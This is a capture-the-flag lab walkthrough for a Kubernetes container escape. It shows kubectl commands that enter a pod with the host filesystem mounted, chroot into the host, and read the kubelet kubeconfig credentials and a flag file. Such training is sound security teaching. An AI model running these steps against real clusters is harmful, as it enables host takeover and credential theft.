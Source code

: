 # K8S Security: Container Escape to Host

1. Lets apply our deployment.

```
kubectl apply -f deployment_host_fs.yaml
```
_Enter the container._

[The most pointess Kubernetes command ever](https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/).


2. Get pods.
```
kubectl get pods
```

3. Enter a pod.
```
kubectl exec -it [pod_name] -- bash
```
4. List the file system.
```
ls
```
5. Lets cd into the /k8-host directory.
```
cd /k8-host
```
6. Then lets run `chroot` to change the root directory and get host privileges.
```
chroot . bash
```
7. We can now pull the certificates for the cluster.

```
cat /var/lib/kubelet/kubeconfig
```
```
ls
```
```
cat flag
```
8. [Submit the flag.](https://devslop.ctfd.io/challenges#Challenge%2019-12)

9. Exit
```
exit
```
10. Cleanup
```
kubectl delete -f deployment_host_fs.yaml
```

